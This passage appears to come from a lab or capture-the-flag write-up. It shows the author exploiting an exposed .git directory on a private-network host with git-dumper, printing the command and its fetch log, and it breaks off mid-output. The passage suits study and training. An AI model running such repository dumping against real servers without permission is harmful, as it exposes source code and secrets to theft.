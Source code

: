 ![git](../images/maldev/git.png)

## Exploitation
To exploit the exposed Git, we will use `git-dumper` to extract the repository files and analyze the log.
```bash
┌─[ribeirin@parrot]─[~/Documents/git-dumper]
└──╼ $./git_dumper.py http://172.16.1.229/.git maldev_git/
[-] Testing http://172.16.1.229/.git/HEAD [200]
[-] Testing http://172.16.1.229/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://172.16.1.229/.git/ [200]
[-] Fetching http://172.16.1.229/.gitignore [404]
[-] http://172.16.1.229/.gitignore responded with status code 404
[-] Fetching http://172.16.1.229/.git/logs/ [200]
[-] Fetching http://172.16.1.229/.git/HEAD [200]
[-] Fetching http://172.16.1.229/.git/COMMIT_EDITMSG [200]
[-] Fetching http://172.16.1.229/.git/branches/ [200]
[-] Fetching http://172.16.1.229/.git/FETCH_HEAD [200]
[-] Fetching http://172.16.1.229/.git/config [200]
[-] Fetching http://172.16.1.229/.git/info/ [200]
[-] Fetching http://172.16.1.229/.git/description [200]
[-] Fetching http://172.16.1.229/.git/objects/ [200]
[-] Fetching http://172.16.1.229/.git/hooks/ [200]
[-] Fetching http://172.16.1.229/.git/logs/HEAD [200]
[-] Fetching http://172.16.1.229/.git/logs/refs/ [200]
[-] Fetching http://172.16.1.229/.git/refs/ [200]
[-] Fetching http://172.16.1.229/.git/info/exclude [200]
[-] Fetching http://172.16.1.229/.git/hooks/commit-msg.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/post-update.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/fsmonitor-watchman.sample [200]
```